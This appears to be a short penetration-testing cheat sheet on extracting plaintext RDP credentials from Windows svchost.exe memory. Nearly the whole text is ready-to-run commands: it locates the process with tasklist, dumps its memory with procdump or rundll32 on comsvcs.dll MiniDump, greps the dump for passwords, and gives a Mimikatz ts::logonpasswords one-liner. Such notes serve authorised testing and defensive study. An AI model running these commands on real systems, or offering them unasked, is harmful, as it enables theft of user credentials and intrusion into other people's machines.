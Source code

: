# svchost.exe

* [https://www.n00py.io/2021/05/dumping-plaintext-rdp-credentials-from-svchost-exe/](https://www.n00py.io/2021/05/dumping-plaintext-rdp-credentials-from-svchost-exe/)

Locate the svchost.exe process that's holding RDP creds:

```
Cmd > tasklist /M:rdpcorets.dll
```

Use ProcDump or comsvc.dll to dump process memory:

```
Cmd > .\procdump64.exe -accepteula -64 -ma <PROCESS_PID> svchost.dmp
Cmd > rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump <PROCESS_PID> C:\Windows\Temp\svchost.dmp full
```

Grep for plaintext passwords:

```
$ strings -el svchost.dmp | grep <USERNAME> -C1
```




## Mimikatz

```
Cmd > .\mimikatz.exe "privilege::debug" "token::elevate" "log out.txt" "ts::logonpasswords" "exit"
```
